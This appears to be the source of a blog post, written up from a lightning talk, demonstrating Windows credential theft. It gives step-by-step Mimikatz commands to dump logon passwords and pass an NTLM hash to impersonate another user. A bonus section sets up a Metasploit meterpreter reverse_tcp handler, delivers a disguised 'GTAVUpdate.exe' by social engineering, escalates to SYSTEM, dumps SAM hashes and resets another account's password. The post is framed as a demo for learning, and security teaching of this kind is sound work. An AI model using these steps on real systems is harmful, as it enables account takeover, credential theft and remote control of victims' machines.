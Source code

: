 ```yaml
---
title: 'Passing the Hash with Mimikatz'
excerpt: "In this article, I'll walk you through how to use Mimikatz to obtain user passwords from a Windows machine. I'll also show you how to use Mimikatz in order to perform an attack called passing the hash (pth) to escalate your privileges and impersonate a user. Also as a bonus, I'll show you how you can utilise both a Meterpreter reverse shell and a phishing attack in order to get the same outcome but without needing physical access to the target's machine."
publishDate: '2022-04-07'
tags: ['Security']
---
```


<div className="markdown">

### What are the main concepts

<div className="w-full flex flex-col md:flex-row space-between gap-4">
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      xmlns="http://www.w3.org/2000/svg"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      fill="none"
      stroke="currentColor"
      strokeWidth="2"
      strokeLinecap="round"
      strokeLinejoin="round"
      className="lucide lucide-shield-alert"
    >
      <path d="M20 13c0 5-3.5 7.5-7.66 8.95a1 1 0 0 1-.67-.01C7.5 20.5 4 18 4 13V6a1 1 0 0 1 1-1c2 0 4.5-1.2 6.24-2.72a1.17 1.17 0 0 1 1.52 0C14.51 3.81 17 5 19 5a1 1 0 0 1 1 1z" />
      <path d="M12 8v4" />
      <path d="M12 16h.01" />
    </svg>
    <div className="text-lg font-semibold">Mimikatz</div>
    <small className="text-slate-500 text-sm">
      Mimikatz is well known to extract plaintexts, passwords, and hash from
      memory.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Metasploit</title>
      <path d="M11.353 0h1.368q4.19.218 8.144 1.616.217.077.216.309-.015 4.033-.002 12.102 0 .81-.093 1.173c-.217.845-.76 1.635-1.326 2.325q-.318.388-1.024 1.046-2.955 2.75-6.01 5.094-.183.14-.516.335h-.17q-.627-.42-.945-.673-3.992-3.184-5.442-4.459-1.348-1.185-2.169-2.611c-.369-.64-.466-1.287-.465-2.099q.01-6.048.002-12.218c0-.183.09-.264.261-.325Q7.145.227 11.352 0ZM7.474 7.864q0-.094.069-.031l2.797 2.516a.374.372 21.2 0 1 .122.276l-.006 4.333a.182.182 0 0 0 .183.184l2.524-.018a.11.11 89.8 0 0 .108-.11q-.007-2.201.01-4.461.002-.173.146-.29 1.397-1.145 2.946-2.393.068-.055.068.032v10.881q0 .092.063.024.794-.865 1.628-1.838.71-.83.984-1.87.26-.989.262-1.997.007-4.754.009-9.768a.136.136 0 0 0-.137-.136q-1.15.004-2.424 0c-.287-.002-.441-.022-.619.149Q14.16 5.317 11.982 7.4a.046.046 0 0 1-.062 0Q9.782 5.437 7.769 3.525c-.234-.222-.515-.381-.843-.373q-1.09.026-2.33.005-.184-.004-.184.18-.003 4.54.005 9.032.002.536.036 1.027c.076 1.093.2 2.126.803 3.021.574.852 1.329 1.656 2.126 2.405q.023.022.054.026.04.006.04-.034z" />
    </svg>
    <div className="text-lg font-semibold">Metasploit</div>
    <small className="text-slate-500 text-sm">
      The world&apos;s most used penetration testing framework.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Kali Linux</title>
      <path d="M12.778 5.943s-1.97-.13-5.327.92c-3.42 1.07-5.36 2.587-5.36 2.587s5.098-2.847 10.852-3.008zm7.351 3.095l.257-.017s-1.468-1.78-4.278-2.648c1.58.642 2.954 1.493 4.021 2.665zm.42.74c.039-.068.166.217.263.337.004.024.01.039-.045.027-.005-.025-.013-.032-.013-.032s-.135-.08-.177-.137c-.041-.057-.049-.157-.028-.195zm3.448 8.479s.312-3.578-5.31-4.403a18.277 18.277 0 0 0-2.524-.187c-4.506.06-4.67-5.197-1.275-5.462 1.407-.116 3.087.643 4.73 1.408-.007.204.002.385.136.552.134.168.648.35.813.445.164.094.691.43 1.014.85.07-.131.654-.512.654-.512s-.14.003-.465-.119c-.326-.122-.713-.49-.722-.511-.01-.022-.015-.055.06-.07.059-.049-.072-.207-.13-.265-.058-.058-.445-.716-.454-.73-.009-.016-.012-.031-.04-.05-.085-.027-.46.04-.46.04s-.575-.283-.774-.893c.003.107-.099.224 0 .469-.3-.127-.558-.344-.762-.88-.12.305 0 .499 0 .499s-.707-.198-.82-.85c-.124.293 0 .469 0 .469s-1.153-.602-3.069-.61c-1.283-.118-1.55-2.374-1.43-2.754 0 0-1.85-.975-5.493-1.406-3.642-.43-6.628-.065-6.628-.065s6.45-.31 11.617 1.783c.176.785.704 2.094.989 2.723-.815.563-1.733 1.092-1.876 2.97-.143 1.878 1.472 3.53 3.474 3.58 1.9.102 3.214.116 4.806.942 1.52.84 2.766 3.4 2.89 5.703.132-1.709-.509-5.383-3.5-6.498 4.181.732 4.549 3.832 4.549 3.832zM12.68 5.663l-.15-.485s-2.484-.441-5.822-.204C3.37 5.211 0 6.38 0 6.38s6.896-1.735 12.68-.717Z" />
    </svg>
    <div className="text-lg font-semibold">Kali Linux</div>
    <small className="text-slate-500 text-sm">
      A Linux distribution designed for digital forensics and penetration
      testing.
    </small>
  </div>
</div>

### Pre Set Up

- A target (preferably with consent)
- A windows machine with multiple user account (peferably one which has admin access)
- The Windows Defender (aka Window's firewall) has been turned off
- Mimikatz (and metasploit if you are attempting the bonus feature) downloaded

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```

### The Simple Way

1. Log on as `FakeUser` and demonstrate that without system admin privilege, we can't change the password of another account.
2. Launch `Mimikatz` as an administrator
3. Use command `privilege::debug` to escalate privileges
4. Use command `sekurlsa::logonpasswords` to dump all user passwords.
5. Get the hash of the user we want to impersonate (in this case, it's `User`) and the domain of the `FakeUser` account.
6. Use command:

```
sekurlsa::pth /user:User /domain:[insert_user_domain_here] /ntlm:[insert_hash_here]
```

7. A new console opens up.
8. Demonstrate that the system thinks we are still `FakeUser` but we definitely are `User`.
9. Now try changing the password and it will work. This is an pre-recording I did in case the lightning talk went sideways. If you can't view the recording below, use this link instead: [Mimikatz Video](https://youtu.be/MLizeTI0jr4)

<div className="flex w-full justify-center py-4">
  <iframe
    width="710"
    height="398"
    src="https://www.youtube.com/embed/MLizeTI0jr4"
    frameborder="0"
    allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
    allowfullscreen
    className="rounded-sm"
  ></iframe>
</div>

### Bonus: The Fancy Way

1. Launch Kali
2. Open terminal and get IP using `ip addr`
3. Launch Metasploit using `msfconsole`
4. Use commands:

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP address]
set LPORT 4444
```

5. Open another console and `cd /var/www/html`
6. Start the apache server using `service apache2 start`
7. Switch back to the meterpreter console and type `exploit`
8. Switch over to the Windows machine and talk about how a simple social engineering can be done to gain access.
9. Once launch `GTAVUpdate.exe`, go back to Kali.
10. Show that we are now impersonating this user by `getuid`
11. Escalate our privileges by `getsystem`
12. Show that we are now system admin by `getuid`
13. Load mimikatz using `load mimikatz`
14. Show that we can get user password ntlm hashes using `lsa_dump_sam`
15. Type in `shell`
16. This launches the shell and we can verify that we are system admin by `whoami`
17. Change password using `net user User hello`

### Reflection

From researching various topics about Mimikatz, passing the hash and Windows Defenders to ultimately doing a lightning talk (more like a lightning demo) about how to escalate privileges in Windows, I've learnt a lot about how powerful a tool Windows firewall is to detect malware like Mimikatz and how easy it was to hack someone's account when you have physical access (ie. GAME OVER!!!). The talk I did also spawned a couple of interesting questions about the validity of attacking a corporate network like how I demonstrated it. Spoiler alert: unless you have physical access to the network, you chances of you doing this is low. Even if you successfully manage to download Mimikatz, there are definitely going to be all sorts of red flags going off in the company's IT department.

</div>
